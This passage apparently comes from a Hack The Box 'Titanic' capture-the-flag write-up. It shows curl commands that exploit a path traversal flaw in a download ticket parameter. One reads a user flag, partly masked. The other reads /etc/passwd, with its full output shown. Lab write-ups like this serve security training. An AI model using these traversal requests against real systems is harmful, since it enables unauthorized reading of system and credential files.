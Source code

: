 ![](/assets/img/sample/titanic/4.png)


~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ curl http://titanic.htb/download?ticket=../../../../../../../../../../home/developer/user.txt
253845cca0ee71aa4df5e31279b*****
~~~

~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ curl http://titanic.htb/download?ticket=../../../../../../../../../../etc/passwd          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
~~~